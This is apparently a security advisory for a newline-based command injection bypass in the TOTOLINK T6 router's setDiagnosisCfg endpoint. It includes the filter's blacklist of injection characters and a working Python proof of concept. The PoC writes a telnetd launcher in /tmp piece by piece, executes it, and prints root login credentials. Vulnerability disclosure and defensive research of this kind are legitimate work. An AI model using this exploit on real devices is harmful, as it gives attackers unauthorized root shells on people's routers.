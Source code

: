 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a command injection bypass vulnerability. This vulnerability can be triggered through the topicurl `setDiagnosisCfg`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

The `ip` parameter can cause command injection vulnerability

![image-1](2/1.png)

However `Validity_check` function check for command injection before doing `system` (Ghidra choke so I use IDA instead)

![image-1](2/2.png)

So `;`, `.sh`, `iptables`, `telnetd`, `&`, `|`, `$` and "\`" is blacklist. We can bypass commnad injection with new line `\n`

# POC

```python
import requests, time, sys, os

def execute_command(target_ip, cmd):
    http_sv = "http://%s/cgi-bin/cstecgi.cgi" % target_ip
    
    payload = '''
    {
        "topicurl":"setDiagnosisCfg",
        "ip":"\\n%s \\n"
    }
    ''' % cmd
    
    res = requests.post(http_sv, data=payload)
    
    if res.status_code == 200:
        return True
    else:
        return False
        
if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("[-] Usage: <%s> target_ip" % sys.argv[0])
        exit(0)
    
    target_ip = sys.argv[1]
    
    execute_command(target_ip, "rm /tmp/hacked")
    execute_command(target_ip, "echo -n tel >> /tmp/hacked")
    execute_command(target_ip, "echo -n netd >> /tmp/hacked")
    execute_command(target_ip, "echo -n ' # Pwned by Elvis!!!' >> /tmp/hacked")
    execute_command(target_ip, "chmod +x /tmp/hacked")
    
    print("[+] /tmp/hacked written. Try telnet %s with root/KL@UHeZ0" % target_ip)
    execute_command(target_ip, "/tmp/hacked")
```

[Video](https://www.youtube.com/watch?v=T62BuSoHmoM)

# Credits

[Reisen_1943](https://anduinbrian.github.io/). He helped me to setup the device and found the login information for root account.